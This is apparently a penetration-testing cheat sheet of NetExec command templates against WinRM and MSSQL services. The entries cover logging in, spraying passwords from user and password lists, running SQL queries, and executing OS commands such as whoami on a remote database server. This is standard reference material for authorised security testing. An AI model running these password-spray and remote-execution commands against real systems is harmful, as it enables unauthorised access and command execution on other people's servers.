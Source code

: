 ## nxc - winrm-auth
#plateform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
nxc winrm <rhost> -u <user> -p <password>
```

## nxc - mssql password spray
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
nxc mssql <rhost> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## nxc - mssql execute query
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <rhost> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## nxc - mssql execute command
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <rhost> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

= ip: 192.168.1.0/24
